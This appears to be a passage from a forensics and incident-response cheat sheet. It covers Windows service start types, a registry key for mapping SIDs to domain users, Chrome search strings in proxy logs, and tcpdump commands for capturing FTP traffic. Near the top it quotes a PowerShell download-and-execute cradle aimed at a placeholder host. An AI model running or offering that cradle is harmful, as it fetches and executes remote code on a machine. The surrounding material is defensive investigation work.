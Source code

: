 ```IEX(New-Object System.Net.WebClient).downloadstring(‘http://example.com/foo.exe’)```

|Value|	Start Type|	Meaning|
| :--- | :--- | :--- |
|0x00|	Boot|	The kernel loaded will load this driver first as its needed to use the boot volume device.|
|0x01|	System|	This is loaded by the I/O subsystem.|
|0x02|	Autoload|	The service is always loaded and run.|
|0x03|	Manual|	This service does not start automatically and must be manually started by the user. |
|0x04|	Disabled|	The service is disabled and should not be started. |

<a name="interesting-domain-info"></a>
### Interesting domain information
[*back to table of contents*](#b2t)

**Domain users**

It is possible to query the following registry key on the domain controller,

```SOFTWARE\Microsoft\Windows NT\CurrentVersion\Profile List```

This can be used to compare an SID and get the username of the domain user.

<a name="browser-behaviour"></a>
### Browser behaviour
[*back to table of contents*](#b2t)

#### Google Chrome

**Search strings**

These can be found in proxy logs or even in memory. Below is an example of how we can see what the logged on user was searching for. It’s almost like Chrome is a keylogger. 
When the user is typing into the browser address bar we will see request strings like (the user would not see these strings):

```/s?hl=en&sugexp=tsh&gs_nf=l&gs_mss=online%20drop%20si&cp=16&gs_id=lv&xhr=t&q=online%20drop%20site&pf=p&output=search&sclient=psyab&oq=&aq=&aqi=&aql=&gs_l=&pbx=l&bav=on.2, or.r_gc.r_pw.r_qf.,cf.osb&fp=68c4c5cdla158f5c&biw=1128&bih=580&tch=l&ech=16&psi=3EjZT8mwL8Pt6gGnr728Aw.1339640029993.1```

When the user types into the search box on google.com then the request strings look like,
```/complete/search?sugexp=chrome,mod=9&client=chrome&hl=enUS&q=deaddrop.com```

When the user hits ENTER after entering the search in the address bar or the search box the following HTTP request would display in the user’s address bar,
`/search?sugexp=chrome,mod=9&sourceid=chrome&ie=UTF-8&q=dead+drop+for+data`

<a name="live-cap-tools"></a>
## Capturing tools

<a name="live-tcpdump"></a>
### tcpdump
[*back to table of contents*](#b2t)

#### Capturing FTP

To capture active-mode FTP traffic use the following, 

```sudo tcpdump -i ens33 -w ftp_active_full.pcap '(tcp and (port 21 or port 20))’```

To capture active and passive FTP traffic use, 

```sudo tcpdump - i ens33 -w ftp_full.pcap '(tcp and (port 21 or ((src portrange 1024-65535 or src port 20) and (dst portrange 1024- 65535 or dst port 20)))'```

<a name="dumpit"></a>
### DumpIt
```